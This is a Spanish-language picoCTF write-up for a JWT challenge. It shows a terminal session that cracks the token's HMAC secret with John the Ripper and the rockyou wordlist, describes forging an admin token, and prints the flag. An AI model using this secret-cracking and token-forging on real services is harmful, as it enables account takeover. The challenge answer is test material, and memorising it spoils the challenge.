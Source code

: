 ## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
## Solución
- Entramos a la pagina, pusimos un usuario X, nos fuimos a las cookies, copiamos el token
- Lo enviamos a un archivo en la consola, lo descomprimimos
```bash
┌──(armando㉿kali)-[~]
└─$ nano bandera 

┌──(armando㉿kali)-[~]
└─$ cat bandera 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYXJtYW5kbyJ9.EtQ_h8KZbmTf5-SSJAdh0z9rvTM_VpFT62bHiRwC_Yk

┌──(armando㉿kali)-[~]
└─$ ls /usr/share/wordlists                 
amass      dnsmap.txt     john.lst    nmap.lst        wfuzz
dirb       fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt
    
┌──(armando㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

┌──(armando㉿kali)-[~]
└─$ ls /usr/share/wordlists                      
amass      dnsmap.txt     john.lst    nmap.lst     wfuzz
dirb       fasttrack.txt  legion      rockyou.txt  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt

┌──(armando㉿kali)-[~]
└─$ john bandera -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:04 DONE (2024-09-24 08:55) 0.2347g/s 1735Kp/s 1735Kc/s 1735KC/s ilovepinky53..ilovepets0
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
       
┌──(armando㉿kali)-[~]
└─$ 
```
- Entramos a la pagina JSON Web Tokens ahí colocamos el token que copiamos, lo modificamos poniéndole que somos el usuario y para la llave la palabra clave que nos salió y ya nos genera la bandera.
```bash
picoCTF{jawt_was_just_what_you_thought_44c752f5}
```

## Notas Adicionales
## Referencias
- [ JSON Web Tokens - jwt.io](https://jwt.io/)
